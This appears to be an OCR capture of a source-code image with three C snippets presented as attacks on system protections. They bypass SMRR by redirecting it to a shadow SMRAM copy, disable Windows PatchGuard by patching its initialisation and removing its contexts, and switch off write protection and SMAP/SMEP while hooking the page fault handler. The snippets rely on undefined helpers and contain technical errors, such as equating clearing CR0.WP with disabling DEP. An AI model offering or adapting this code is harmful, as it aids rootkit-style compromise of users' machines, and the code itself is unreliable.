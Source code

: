 ## SMRR Bypass

```c
// Bypass SMRR protection
void BypassSMRR() {
    // Get SMRR MSRs
    uint64_t smrrBase = __readmsr(MSR_SMRR_BASE);
    uint64_t smrrMask = __readmsr(MSR_SMRR_MASK);
    
    // Create shadow copy of SMRAM
    void* shadowSmram = AllocatePool(SMRAM_SIZE);
    CopySmramToShadow(shadowSmram);
    
    // Patch SMRR to point to shadow
    __writemsr(MSR_SMRR_BASE, VirtualToPhysical(shadowSmram));
}
```

## Advanced PatchGuard Disable

```c
void CompletelyDisablePatchGuard() {
    // Find PatchGuard initialization
    uint8_t* pgInit = FindPatchGuardInit();
    
    // Patch initialization routine
    uint8_t nops[] = {0x90, 0x90, 0x90, 0x90, 0x90};
    WriteProtectedMemory(pgInit, nops, sizeof(nops));
    
    // Remove existing PatchGuard contexts
    PLIST_ENTRY contextList = FindPatchGuardContexts();
    while(contextList) {
        RemovePatchGuardContext(contextList);
        contextList = contextList->Flink;
    }
    
    // Prevent new PatchGuard initialization
    HookKiSystemStartup(BlockPatchGuardInit);
}
```

## Memory Protection Bypass

```c
// Completely bypass memory protections
void BypassMemoryProtection() {
    // Disable DEP
    uint64_t cr0 = __readcr0();
    __writecr0(cr0 & ~CR0_WP);
    
    // Disable SMAP/SMEP
    uint64_t cr4 = __readcr4();
    __writecr4(cr4 & ~(CR4_SMAP | CR4_SMEP));
    
    // Setup shadow page tables
    InitializeShadowPageTables();
    
    // Hook page fault handler
    HookPageFaultHandler(CustomPageFaultHandler);
}
```
